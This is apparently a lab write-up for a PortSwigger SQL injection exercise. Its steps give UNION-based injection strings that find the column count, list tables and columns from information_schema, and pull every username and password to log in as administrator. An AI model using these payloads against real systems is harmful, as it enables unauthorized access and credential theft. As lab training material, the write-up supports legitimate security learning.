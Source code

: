 # SQL Injection - Listing the Database Contents on non-Oracle Databases

## 📌 Lab Details
- **Title**: SQL Injection - Retrieving the list of username and passwords of all users
- **Difficulty**: Medium
- **Category**: SQL Injection
- **Lab URL**: https://portswigger.net/academy/labs/launch/81986add1fa6ec438867539cc2f562f01dcf9faf6a0b82766269c3dbeef30b00?referrer=%2fweb-security%2fsql-injection%2fexamining-the-database%2flab-listing-database-contents-non-oracle

## 🔍 Summary
This lab demonstrated how SQL Injection attack can be used to retrieve the list of the usernames and passwords to login as an administrator.

## 🛠 Steps to Solve
1. Determine the number of columns present by injecting `'+UNION+SELECT+'abc','def'--`
2. Injecting `'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--` to retrieve the list of tables in the database.
3. Injecting `'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--` to retrieve the details of the columns in the table (replacing the table name).
4. Injecting `'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--` to retrieve the usernames and passwords of all users (replacing the table and column names).
5. Find the password of administrator to log in.

## 📖 Key Takeaways
- Understanding how SQL queries can be manipulated.
- Using `UNION` and `SELECT` commands to extract data from tables.


